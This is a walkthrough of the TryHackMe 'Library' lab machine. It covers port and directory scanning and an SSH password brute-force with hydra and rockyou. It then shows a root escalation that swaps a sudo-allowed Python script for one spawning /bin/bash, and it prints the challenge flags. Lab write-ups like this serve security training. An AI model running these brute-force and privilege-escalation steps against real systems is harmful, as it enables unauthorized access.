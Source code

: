 ## Library - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtlibrary)

**IP: 10.10.99.178**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, Hydra

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.

  ```
  nmap -Pn -sC -sV -T5 -p- 10.10.99.178

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
  |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
  |_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  | http-robots.txt: 1 disallowed entry 
  |_/
  |_http-title: Welcome to  Blog - Library Machine
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
  ```
  gobuster dir -u http://10.10.99.178/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /images               (Status: 301) [Size: 313] [--> http://10.10.99.178/images/]
  /server-status        (Status: 403) [Size: 300]
  Progress: 220560 / 220561 (100.00%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited a web page, I tried to post a comment but it was not reflected. Users that commented on the page: meliodas, root, www-data and Anonymous.
  
- I checked `robots.txt` it gave me `rockyou` which means I can most likely use it to obtain credentials.

  ```
  User-agent: rockyou 
  Disallow: /
  ```

---

## ⚙️ Gaining Access

- I tried to gain access by uploading shells to `/images` but it wass unsuccessfull, then I switched to brute forcing since I have 4 usernames and port 22 open. I started with `meliodas` first.

  ```
  hydra -l meliodas -P /rockyou.txt -t 16 10.10.99.178 ssh
  [22][ssh] host: 10.10.99.178   login: meliodas   password: iloveyou1
  1 of 1 target successfully completed, 1 valid password found

  ```
  
- Nice, credentials obtained! Log in as meliodas with ssh and start looking for flags.

---

## 🧍 User Privilege Escalation

- First flag is there as soon as you log in.

  ```
  meliodas@ubuntu:~$ whoami
  meliodas
  
  meliodas@ubuntu:~$ ls
  bak.py  user.txt
  
  meliodas@ubuntu:~$ cat user.txt 
  6d488cbb3f111d135722c33cb635f4ec
  ```
  
- Moving to privilege escalation.

---

## 👑 Root Privilege Escalation

- With `sudo -l` I found that I have sudo permission with using Python, this is the way to root for sure, no need for further enumeration.

  ```
  meliodas@ubuntu:~$ sudo -l
  Matching Defaults entries for meliodas on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User meliodas may run the following commands on ubuntu:
      (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
  ```
  
- OK, so here I tried few different things to manipulate `os module` in `bak.py` script but couldn't make it work. When I tried to edit the script I got denied, so then I though "What if I delete this script and create a new one?". Well, that actually worked!

  ```rm -f bak.py```
  
- Now, since original script is deleted, create a new one named `bak.py` and run it with sudo and full paths, othervise it won't work.

  ```
  meliodas@ubuntu:~$ nano bak.py
  meliodas@ubuntu:~$ cat bak.py 
  import os
  os.system("/bin/bash")
  
  meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
  root@ubuntu:~# whoami
  root
  ```

- That's it, root obtained, now just read the flag. Keep in mind, there's few different lines of code for this 'shell' that will give you root access, try experimenting a bit!

  ```
  root@ubuntu:~# cat /root/root.txt
  e8c8c6c256c35515d1d344ee0488c617
  ```

---

## 🏁 Flags

- **User Flag**: `6d488cbb3f111d135722c33cb635f4ec`
- **Root Flag**: `e8c8c6c256c35515d1d344ee0488c617`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding way to root with Python.`

- What did I learn?
  `New privilege escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
